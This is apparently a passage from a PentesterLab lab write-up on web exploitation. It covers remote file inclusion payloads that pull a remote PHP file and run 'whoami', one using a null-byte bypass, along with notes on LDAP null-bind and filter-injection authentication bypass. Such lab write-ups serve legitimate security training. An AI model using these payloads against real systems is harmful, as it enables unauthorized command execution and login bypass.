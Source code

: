 ### File Inclusion - 1

```
?page=https://assets.pentesterlab.com/test_include_system.txt&c=whoami
```

### File Inclusion - 2

```
?page=https://assets.pentesterlab.com/test_include_system.txt%00&c=whoami
```

## LDAP

Some LDAP servers authorize NULL Bind i.e. If null values are sent, the LDAP server will proceed to bind the connection. As a result, the PHP code will think that the credentials are correct.

### LDAP - 1

For this section, we remove the highlighted part to send null values to LDAP for verification.

![](<.gitbook/assets/image (9).png>)

### LDAP - 2

The most common pattern of LDAP injection is to be able to inject in a filter. LDAP injection can be used to bypass Authentication.

LDAP Syntax:

```
(cn=[INPUT])
(|(cn=[INPUT1])(cn=[INPUT2])) #OR 
(&(cn=[INPUT1])(cn=[INPUT2])) #AND
# Logical operator towards the start
```
